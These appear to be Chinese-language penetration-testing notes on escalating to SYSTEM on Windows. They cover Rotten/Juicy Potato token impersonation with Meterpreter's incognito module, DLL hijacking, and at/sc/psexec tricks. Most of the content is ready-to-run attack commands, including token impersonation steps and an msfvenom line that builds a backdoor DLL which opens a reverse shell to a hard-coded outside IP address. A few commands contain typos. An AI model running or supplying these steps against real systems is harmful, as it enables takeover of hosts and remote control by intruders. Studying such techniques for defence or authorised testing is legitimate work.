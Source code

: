 ```powershell
过程：上传烂土豆-执行烂土豆-利用窃取模块-窃取system成功
烂土豆提权就是俗称的MS16-075
可以将Windows工作站上的特权从最低级别提升到“ NT AUTHORITY \ SYSTEM” – Windows计算机上可用的最高特权级别
uicy Potato的限制条件如下：

需要支持SeImpersonate或者SeAssignPrimaryToken权限
开启DCOM
本地支持RPC或者远程服务器支持PRC并能成功登录
能够找到可用的COM对象
一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权限的。一般大多数的服务型账户IIS、MSSQL等，有这个权限，大多数用户级的账户没有这个权限，这些都可以whoami /priv 试一下看看有没有模仿权限。
upload /root/potato.exe C:\Users\Public
cd C:\\Users\\Public
use incognito
list_tokens -u
execute -cH -f ./potato.exe
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"
```

* 第三方软件
  * vnc
* DLL劫持(dll好比exe程序)

dll劫持提权需要特定软件应用的控制权限及启用配合，复杂鸡肋，那个特定软件要经常使用

```powershell
原理：Windows 程序启动的时候需要 DLL。如果这些 DLL 不存在，则可以通过在应用程序要查找的
位置放置恶意 DLL 来提权。通常，Windows 应用程序有其预定义好的搜索 DLL 的路径，它会根据下
面的顺序进行搜索：
1、应用程序加载的目录
2、C:\Windows\System32
3、C:\Windows\System
4、C:\Windows
5、当前工作目录 Current Working Directory，CWD
6、在 PATH 环境变量的目录（先系统后用户）
过程：信息收集-进程调试-制作 dll 并上传-替换 dll-启动应用后成功
Win2012-DLL 劫持提权应用配合 MSF-Web 权限（会话窃取）
信息收集：收集服务器上第三方软件，收集程序在运行的时候，会调用哪些dll程序
msfvenom -p windows/meterpreter/reverse_tcp lhost=101.37.169.46 lport=6677 -f dll >/opt/xiaodi.dll
火绒剑
看非系统软件
生成一个后门dll文件，然后运行软件
```

* AT&SC&PC命令

```powershell
# at 2003
#管理员权限执行
at 15:13 /interactice cmd.exe
# 就会弹出一个system权限的终端

# sc 网上说sc可以在Windows 7上用，不过我没有成功 从管理员权限到system权限
# windows 2003 window7 8 (windows7 windows 8没能成功)
sc Create syscmd binPath="cmd /K start" type= own type=interact
sc start syscmd
#systemcmd 是服务名称
#binpath 是启动的命令
#type=own 是指服务这个服务属于谁
#type=interact 交互状态
#cmd/k start 启动一个新的cmd窗口

# psexec.exe Windows 2008 从管理员权限到system权限
psexec.exe -accepteula -a -i -d notepad.exe
```